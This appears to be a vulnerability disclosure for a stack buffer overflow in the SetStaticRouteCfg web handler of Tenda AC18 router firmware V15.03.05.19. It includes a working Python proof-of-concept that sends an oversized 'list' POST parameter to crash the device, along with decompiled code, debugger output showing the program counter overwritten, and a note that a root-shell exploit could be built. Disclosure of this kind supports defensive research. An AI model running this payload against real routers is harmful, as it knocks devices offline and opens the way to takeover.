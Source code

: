 # SetStaticRouteCfg

### Affected product

```
AC18 V15.03.05.19
```

/goform/SetStaticRouteCfg，list  is controllable and will eventually be spliced into para_2 by sscanf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability

### POC

```
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.119'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x1000
p2 = b'list' + p1

p3 = b"POST /goform/SetStaticRouteCfg" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.119" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

### Detail

```c
  v5 = sub_2BA8C(a1, "list", &unk_E5D48);
  v1 = sub_78390("adv.staticroute", v5, 126);
```

You can see the router crash, and finally we can write an exp to get a root shell

```
 ► 0xf65d6ed0 <sscanf+20>    bl     #__GI_vsscanf@plt <0xf65aff80>
                   r0: 0xf657d010 ◂— 0x61616161 ('aaaa')
                                                                                              		        r1: 0xe5cfc ◂— '%[^,],%[^,],%[^,],%s'
                   r2: 0xf6fff068 —▸ 0xf6fff0c4 ◂— 'kraaksaaktaakuaa'
                   r3: 0xf6fff0b4 ◂— 'knaakoaakpaakqaakraaksaaktaakuaa'


Invalid address 0x64616170

```

